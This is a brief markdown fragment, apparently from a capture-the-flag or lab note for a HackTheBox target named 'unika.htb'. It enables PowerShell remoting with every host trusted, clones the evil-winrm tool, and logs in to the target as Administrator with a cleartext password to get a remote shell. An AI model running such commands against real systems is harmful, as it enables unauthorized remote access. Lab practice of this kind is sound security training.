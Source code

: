 ```
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  
```
# EVIL WINRM
```
git clone https://github.com/Hackplayers/evil-winrm.git
```

```
sudo evil-winrm -u Administrator -p 'badminton'  -i unika.htb
```